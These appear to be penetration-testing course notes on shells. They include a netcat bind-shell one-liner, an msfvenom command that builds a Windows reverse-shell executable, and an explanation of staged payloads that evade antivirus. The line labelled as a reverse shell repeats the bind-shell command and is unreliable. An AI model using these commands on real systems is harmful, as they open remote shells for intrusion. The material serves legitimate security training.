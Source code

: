 ### Non-Interactive

Limited to using programs which do not require user interaction in order to run properly. The majority of simple reverse and bind shells are non-interactive.

## Common Shell Payloads

On Linux, we use this code to create a listener for a bind shell: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.

* The command first creates a named pipe at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe.
* A very similar command can be used to send a netcat reverse shell: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
* For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages.

## msfvenom

Msfvenom: The one-stop-shop for all things payload related. Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells.

The standard syntax for msfvenom: `msfvenom -p <PAYLOAD> <OPTIONS>`.

* To generate a Windows x64 Reverse Shell in an exe format: `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`.
  * `-f` specifies the output format.
  * `-o` the output location and filename for the generated payload.
  * `LHOST=<IP>` specifies the IP to connect back to.
  * `LPORT=<PORT>` the port on the local machine to connect back to. This can be anything between 0-65535 that isn't already in use. However, the ports below 1024 are restricted and require a listener running with root privileges.

### Staged Payloads

Staged payloads are sent in two parts.

1. Stager - A piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead, it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions.

* The payloads are split into two parts - a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener - usually the Metasploit multi/handler.

### Stageless Payloads

Stageless payloads are more common where they are entirely self-contained. There is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

### Meterpreter

